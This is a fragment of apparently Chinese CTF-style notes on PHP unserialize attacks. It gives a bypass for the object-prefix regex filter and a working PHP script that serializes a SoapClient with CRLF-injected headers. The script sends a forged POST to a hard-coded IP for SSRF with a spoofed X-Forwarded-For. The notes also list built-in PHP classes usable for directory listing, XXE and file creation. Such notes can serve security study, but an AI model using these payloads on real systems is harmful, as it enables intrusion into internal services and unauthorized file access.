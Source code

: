 We you create an object of the class and If the PHP engine doesn't find the class file included in the script then __autoload() magic method will automatically trigger.

## (六)、 反序列化

### 1 `/[oc]:\d+:/i`绕过

对于o后面的数字进行删除的绕过，加上一个加号即可。

### 2 soap反序列化+ssrf+crlf

```
<?php
$target = 'http://123.206.216.198/bbb.php';
$post_string = 'a=b&flag=aaa';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: xxxx=1234'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^','%0d%0a',$aaa);
$aaa = str_replace('&','%26',$aaa);
echo $aaa;
?>

```

### 3 内部类反序列化

#### 0x01 ssrf

#### 0x02 xss

#### 0x03 任意文件删除

```
可调用任意类的时候找__construct的时候一些可用的类：
案例：pornhub某漏洞
可获取目录
DirectoryIterator

XXE
SimpleXMLElement

创建空白文件
SQLite3
```
